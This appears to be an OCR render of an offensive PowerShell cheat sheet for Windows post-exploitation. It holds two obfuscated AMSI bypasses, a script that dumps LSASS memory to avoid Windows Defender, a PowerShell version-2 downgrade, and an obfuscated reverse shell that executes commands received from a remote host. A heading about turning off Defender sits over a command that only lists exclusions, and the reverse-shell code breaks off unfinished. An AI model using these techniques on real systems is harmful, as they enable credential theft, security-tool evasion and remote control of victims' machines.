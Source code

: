 ```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
[Buaq.net](https://buaq.net/go-98295.html)

```powershell
[Ref].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true)
```



#### LSASS Dumping without triggering Windows Defender
```powershell
$S = "C:\temp"
$P = (Get-Process lsass)
$A = [PSObject].Assembly.GetType('Syst'+'em.Manage'+'ment.Autom'+'ation.Windo'+'wsErrorRe'+'porting')
$B = $A.GetNestedType('Nativ'+'eMethods', 'Non'+'Public')
$C = [Reflection.BindingFlags] 'NonPublic, Static'
$D = $B.GetMethod('MiniDum'+'pWriteDump', $C) 
$PF = "$($P.Name)_$($P.Id).dmp"
$PDP = Join-Path $S $PF
$F = New-Object IO.FileStream($PDP, [IO.FileMode]::Create)
$R = $D.Invoke($null, @($P.Handle,$G,$F.SafeFileHandle,[UInt32] 2,[IntPtr]::Zero,[IntPtr]::Zero,[IntPtr]::Zero))
$F.Close()
```


#### Elevated Required

Turning off Windows Defender
```powershell
# Requires Elevation
Get-MpPreference | Select-Object -Property ExclusionPath
```

#### PowerShell downgrading

```powershell
powershell -version 2
```

#### Reverse Shells

```powershell
Set-Alias -Name K -Value Out-String
Set-Alias -Name nothingHere -Value iex
$BT = New-Object "S`y`stem.Net.Sockets.T`CPCl`ient"($args[0],$args[1]);
$replace = $BT.GetStream();
[byte[]]$B = 0..(32768*2-1)|%{0};
$B = ([text.encoding]::UTF8).GetBytes("(c) Microsoft Corporation. All rights reserved.`n`n")
$replace.Write($B,0,$B.Length)
$B = ([text.encoding]::ASCII).GetBytes((Get-Location).Path + '>')
$replace.Write($B,0,$B.Length)
[byte[]]$int = 0..(10000+55535)|%{0};
while(($i = $replace.Read($int, 0, $int.Length)) -ne 0){;
$ROM = [text.encoding]::ASCII.GetString($int,0, $i);
$I = (nothingHere $ROM 2>&1 | K );
$I2  = $I + (pwd).Path + '> ';
$U = [text.encoding]::ASCII.GetBytes($I2);
$replace.Write($U,0,$U.Length);
```